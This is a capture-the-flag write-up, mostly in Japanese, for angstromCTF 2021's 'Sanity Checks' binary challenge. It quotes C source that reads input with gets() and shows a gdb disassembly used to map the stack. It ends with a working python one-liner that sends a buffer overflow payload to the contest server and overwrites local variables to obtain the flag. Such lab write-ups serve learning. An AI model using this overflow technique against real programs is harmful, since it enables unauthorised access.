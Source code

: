 # Sanity Checks:Binary:80pts
I made a [program](checks) ([source](checks.c)) to protect my flag. On the off chance someone does get in, I added some sanity checks to detect if something fishy is going on. See if you can hack me at `/problems/2021/sanity_checks` on the shell server, or connect with `nc shell.actf.co 21303`.  
Hint  
`gdb` may be helpful for analyzing how data is laid out in memory.  

# Solution
配布されたソースは以下のようであった。  
```C
~~~
    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
~~~
                            
                            printf(flag);
~~~
```
BOFで変数を書き換える問題のようだ。  
まずはintについて4バイトずつ並んでいる順番を調査する。  
```bash
$ gdb ./checks
~~~
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401196 <+0>:     push   rbp
   0x0000000000401197 <+1>:     mov    rbp,rsp
   0x000000000040119a <+4>:     sub    rsp,0xe0
   0x00000000004011a1 <+11>:    mov    rax,QWORD PTR [rip+0x2ed8]        # 0x404080 <stdout@GLIBC_2.2.5>
   0x00000000004011a8 <+18>:    mov    esi,0x0
   0x00000000004011ad <+23>:    mov    rdi,rax
   0x00000000004011b0 <+26>:    call   0x401040 <setbuf@plt>
   0x00000000004011b5 <+31>:    mov    rax,QWORD PTR [rip+0x2ee4]        # 0x4040a0 <stderr@GLIBC_2.2.5>
   0x00000000004011bc <+38>:    mov    esi,0x0
   0x00000000004011c1 <+43>:    mov    rdi,rax
   0x00000000004011c4 <+46>:    call   0x401040 <setbuf@plt>
   0x00000000004011c9 <+51>:    mov    DWORD PTR [rbp-0x4],0x0
   0x00000000004011d0 <+58>:    mov    DWORD PTR [rbp-0x8],0x0
   0x00000000004011d7 <+65>:    mov    DWORD PTR [rbp-0xc],0x0
   0x00000000004011de <+72>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004011e5 <+79>:    mov    DWORD PTR [rbp-0x14],0x0
   0x00000000004011ec <+86>:    lea    rdi,[rip+0xe15]        # 0x402008
   0x00000000004011f3 <+93>:    mov    eax,0x0
   0x00000000004011f8 <+98>:    call   0x401050 <printf@plt>
   0x00000000004011fd <+103>:   lea    rax,[rbp-0x60]
   0x0000000000401201 <+107>:   mov    rdi,rax
   0x0000000000401204 <+110>:   mov    eax,0x0
   0x0000000000401209 <+115>:   call   0x401080 <gets@plt>
   0x000000000040120e <+120>:   lea    rax,[rbp-0x60]
   0x0000000000401212 <+124>:   lea    rsi,[rip+0xe07]        # 0x402020
   0x0000000000401219 <+131>:   mov    rdi,rax
   0x000000000040121c <+134>:   call   0x401070 <strcmp@plt>
   0x0000000000401221 <+139>:   test   eax,eax
   0x0000000000401223 <+141>:   jne    0x4012cf <main+313>
   0x0000000000401229 <+147>:   lea    rdi,[rip+0xe00]        # 0x402030
   0x0000000000401230 <+154>:   call   0x401030 <puts@plt>
   0x0000000000401235 <+159>:   cmp    DWORD PTR [rbp-0x4],0x32
   0x0000000000401239 <+163>:   jne    0x4012c1 <main+299>
   0x000000000040123f <+169>:   cmp    DWORD PTR [rbp-0x8],0x37
   0x0000000000401243 <+173>:   jne    0x4012c1 <main+299>
   0x0000000000401245 <+175>:   cmp    DWORD PTR [rbp-0xc],0xf5
   0x000000000040124c <+182>:   jne    0x4012c1 <main+299>
   0x000000000040124e <+184>:   cmp    DWORD PTR [rbp-0x10],0x3d
   0x0000000000401252 <+188>:   jne    0x4012c1 <main+299>
   0x0000000000401254 <+190>:   cmp    DWORD PTR [rbp-0x14],0x11
   0x0000000000401258 <+194>:   jne    0x4012c1 <main+299>
~~~
```
後ろから順のようだ。  
また、password[64]はrbp-0x60にあることもわかる。  
つまり、password123\0 + 64バイト + int + int + int + int + intとすればよい。  
以下のようにBOFで変数を書き換える。  
```bash
$ python3 -c "import sys; sys.stdout.buffer.write(b'password123\00'+b'A'*64+b'\x11\x00\x00\x00\x3d\x00\x00\x00\xf5\x00\x00\x00\x37\x00\x00\x00\x32\x00\x00\x00'+b'\n')" | nc shell.actf.co 21303
Enter the secret word: Logged in! Let's just do some quick checks to make sure everything's in order...
actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}
```
flagが得られた。  

## actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}